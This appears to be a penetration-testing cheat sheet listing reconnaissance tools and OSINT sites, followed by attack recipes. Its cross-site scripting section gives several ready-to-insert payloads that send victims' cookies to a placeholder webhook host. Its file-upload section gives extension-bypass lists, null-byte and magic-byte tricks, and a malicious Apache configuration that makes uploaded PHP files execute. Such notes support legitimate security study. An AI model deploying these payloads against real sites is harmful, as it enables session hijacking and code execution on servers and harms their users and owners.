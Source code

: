 ## Hacker AI
- [HackerGPT](https://chat.hackerai.co/)

## Web Application Enumeration
- [assetfinder](https://github.com/tomnomnom/assetfinder):
    - Find domains and subdomains potentially related to a given domain.
- [amass](https://github.com/OWASP/Amass)
    - Performs network mapping of attack surfaces and external asset discovery using open source information gathering and active reconnaissance techniques.
- [sublist3r](https://github.com/aboul3la/Sublist3r)
    -  Enumerate subdomains of websites using OSINT
- [httprobe](https://github.com/tomnomnom/httprobe)
    - Take a list of domains and probe for working http and https servers.
- [waybackurls](https://github.com/tomnomnom/waybackurls)
    - Accept line-delimited domains on stdin, fetch known URLs from the Wayback Machine for *.domain and output them on stdout.
- [whatweb](https://github.com/urbanadventurer/WhatWeb)
    - recognises web technologies including content management systems (CMS), blogging platforms, statistic/analytics packages, JavaScript libraries, web servers, and embedded devices.
- [nmap](https://nmap.org/download.html)
    - Performs network mapping of attack surfaces and external asset discovery using open source information gathering and active reconnaissance techniques.
- [eyewitness](https://github.com/FortyNorthSecurity/EyeWitness) 
    - EyeWitness is designed to take screenshots of websites provide some server header info, and identify default credentials if known.

## Cross Site Scripting Steal Cookie

### Insert this payload on vulnerable site

1. Payload with alert
```javascript
<script>
alert(document.cookie);
var i=new Image;
i.src="http://webhook_link/?"+document.cookie;
</script>
```

2. Payload no alert
```javascript
<script>var i=new Image;i.src="http://webhook_link/?"+document.cookie;</script>
```

3. Payload no script tag
```html
<img src=x onerror=this.src='http://webhook_link/?'+document.cookie;>
```

4. Payload no script tag and loop
```html
<img src=x onerror="this.src='http://webhook_link/?'+document.cookie; this.removeAttribute('onerror');">
```

5. Result 

![alt text](image.png)

## Website OSINT

- [BuiltWith](https://builtwith.com/)
- [Domain Dossier](https://centralops.net/co/)
- [DNSlytics](https://dnslytics.com/reverse-ip)
- [SpyOnWeb](https://spyonweb.com/)
- [Visual Ping](https://visualping.io/)
- [Back Link Watch](http://backlinkwatch.com/index.php)
- [View DNS](https://viewdns.info/)
- [urlscan.io](https://urlscan.io/)
- [DNSdumpster](https://dnsdumpster.com/) *MX Record for email.
- [Web Check](https://web-check.as93.net/)
- [crt.sh](https://crt.sh/)
- [Shodan](https://shodan.io)
- [Wayback Machine](https://web.archive.org/)

## File Upload Vulneraility

1. change extension name to bypss
.php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

1. Use null byte extension
reference : https://book.hacktricks.xyz/pentesting-web/file-upload

1. Change configuration (Apache only)
- Craft Malicious Configuration: 

```bash
php_flag engine on
AddType application/x-httpd-php .php
AddType application/x-httpd-php .phtml
AddType application/x-httpd-php .php3
AddType application/x-httpd-php .php4
AddType application/x-httpd-php .php5
AddType application/x-httpd-php .pht
AddType application/x-httpd-php .phps
```

4. Change Magic byte
try buat request yang valid lepastu just selitkan jer die punya, kita punya payload. tujuan die nak kekalkan magicbyte masa upload.

Reference:
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
- [Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload)

## SQLI Vulnerability


